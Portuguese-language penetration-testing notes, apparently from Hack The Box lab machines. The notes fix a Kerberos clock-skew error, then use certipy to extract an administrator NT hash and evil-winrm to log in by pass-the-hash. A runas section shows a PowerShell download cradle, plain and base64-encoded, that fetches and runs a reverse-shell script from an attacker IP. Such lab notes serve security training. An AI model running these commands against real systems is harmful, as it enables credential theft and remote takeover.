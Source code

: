     O erro "KRB_AP_ERR_SKEW" ocorre quando há uma diferença significativa de tempo entre o cliente e os servidores KDC, afetando o processo de autenticação do Kerberos. Resolver esse problema envolve a sincronização do relógio da nossa máquina com o do servidor.
    
    Para fazer isso, precisamos desativar a configuração "Data e hora automáticas" nas configurações da nossa máquina e executar o seguinte comando para sincronizar nosso relógio:
    
    `sudo ntpdate -s manager.htb`
    
    `certipy auth -pfx administrator.pfx`
    
    ```bash
    certipy auth -pfx administrator.pfx
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Using principal: administrator@manager.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@manager.htb':
    aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
    ```
    
    `evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef`
    
    ```bash
    evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
    Evil-WinRM shell v3.5
    Warning: Remote path completions is disabled due to ruby limitation:
    quoting_detection_proc() function is unimplemented on this machine
    Data: For more information, check Evil-WinRM GitHub:
    https://github.com/Hackplayers/evil-winrm#Remote-path-completion
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    manager\administrator
    ```
    

# RUNAS

- RUNAS
    
    ```bash
    runas /user:ACCESS\Administrator /savecred IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.120:8000/Invoke-PowerShellTcp.ps1')
    
    converter para base64 de windows na maquina local
    echo -n "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.120:8000/Invoke-PowerShellTcp.ps1')" | iconv --to-code UTF-16LE | base64
    
    runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAyADAAOgA4ADAAMAAwAC8AcwBoAGUAbABsAC4AcABzADEAJwApAA=="
    ```
    